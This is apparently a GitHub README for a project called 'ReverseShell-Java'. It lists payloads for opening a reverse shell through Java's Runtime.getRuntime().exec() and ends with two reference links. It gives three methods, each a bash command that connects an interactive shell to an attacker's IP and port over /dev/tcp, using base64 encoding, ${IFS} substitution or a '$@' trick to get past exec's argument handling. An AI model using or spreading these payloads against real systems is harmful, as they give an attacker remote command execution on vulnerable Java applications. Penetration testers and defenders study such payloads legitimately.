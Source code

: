 # ReverseShell-Java
The project work on generating payloads to reverse shell in different contexts of java.


### Payloads in Runtime.getRuntime().exec(String command):
#### Method1:
Linux: bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-d}|{bash,-i}
MAC: bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-D}|{bash,-i}
#### Method2:
bash -c bash${IFS}-i${IFS}>&/dev/tcp/**IP**/**PORT**<&1
#### Method3:
bash -c $@|bash 0 echo bash -i >& /dev/tcp/**IP**/**PORT** 0>&1

### Reference:
http://www.jackson-t.ca/runtime-exec-payloads.html

https://blog.spoock.com/2018/11/25/getshell-bypass-exec/
